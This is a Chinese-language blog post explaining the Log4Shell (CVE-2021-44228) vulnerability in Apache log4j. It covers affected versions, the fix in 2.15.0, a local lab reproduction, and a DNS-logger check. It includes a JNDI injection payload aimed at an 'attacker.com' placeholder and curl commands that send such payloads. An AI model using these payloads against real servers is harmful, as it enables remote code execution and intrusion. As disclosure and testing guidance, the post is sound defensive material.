 title: log4 0day漏洞: CVE-2021-44228
date: 2021-12-11 07:44:41
categories: Java
tags: []
---
# log4 0day漏洞: [CVE-2021-44228](https://www.randori.com/blog/cve-2021-44228/)

这个0day漏洞的POC被发布在 [GitHub](https://github.com/tangxiaofeng7/apache-log4j-poc).

此帖子提供资源，以帮助您了解漏洞以及如何减少它对您的系统的危害。

## 哪些会被影响？

许多许多的服务都会受到这个漏洞的影响。

- 云服务比如 [Steam, Apple iCloud](https://news.ycombinator.com/item?id=29499867)，和类似Minecraft 的应用都被证实他们易于被攻击。
- 任何使用Apache Struts都容易受到攻击。
- 许多开源的项目比如 Minecraft server，[Paper](https://github.com/PaperMC/Paper/commit/b475c6a683fa34156b964f751985f36a784ca0e0),已经对该漏洞进行了修补。
- 简单的修改iPhone的名称证实是苹果服务器的漏洞。
- JDK版本低于`6u211`,`7u201`,`8u191`和`11.0.1`会受到LDAP攻击矢量的影响。
  - 因为在高于这个版本的jdk中设置了`com.sun.jndi.ldap.object.trustURLCodebase`为false
- `2.0 <= Apache log4j <= 2.14.1`

## 如何处理？

### 永久防护

log4j 2.15.0已经被发布，并且没有该漏洞。

Maven Central [here](https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-core/2.15.0/)

## 如何进行攻击？

### 环境要求

- 一个具有漏洞的log4j服务器,版本在上面提到，可以用springboot引入打包。
- 具有任何协议（HTTP，TCP等）的端点，允许攻击者发送漏洞字符串。比如你启动SpringBoot默认端口8080，TCP协议
- 从请求中记录字符串的日志语句。

### 漏洞发生的语句

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

import java.io.*;
import java.sql.SQLException;
import java.util.*;

public class VulnerableLog4jExampleHandler implements HttpHandler {

  static Logger log = LogManager.getLogger(VulnerableLog4jExampleHandler.class.getName());

  /**
   * A simple HTTP endpoint that reads the request's User Agent and logs it back.
   * This is basically pseudo-code to explain the vulnerability, and not a full example.
   * @param he HTTP Request Object
   */
  public void handle(HttpExchange he) throws IOException {
    String userAgent = he.getRequestHeader("user-agent");
    
    // This line triggers the RCE by logging the attacker-controlled HTTP User Agent header.
    // The attacker can set their User-Agent header to: ${jndi:ldap://attacker.com/a}
    log.info("Request User Agent:{}", userAgent);

    String response = "<h1>Hello There, " + userAgent + "!</h1>";
    he.sendResponseHeaders(200, response.length());
    OutputStream os = he.getResponseBody();
    os.write(response.getBytes());
    os.close();
  }
}
```

#### 本地重现

1. 启动有漏洞的服务端

   - 你可以自己创建个SpringBoot项目启动

   - 你可以使用docker使用下面的

     ```shell
     docker run -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
     ```

2. 在另一个命令行使用该语句

   ```she
   curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://127.0.0.1/a}'
   ```

3. 日志应包括错误消息，表示尝试了远程查找但失败了

   ```java
   2021-12-10 17:14:56,207 http-nio-8080-exec-1 WARN Error looking up JNDI resource [ldap://127.0.0.1/a]. javax.naming.CommunicationException: 127.0.0.1:389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
   ```



### 如何验证你的服务器是否存在漏洞？

使用DNS logger(比如  [dnslog.cn](http://www.dnslog.cn/))，你可以生成域名并且使用你自己的测试

```she
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://xxx.dnslog.cn/a}'
```

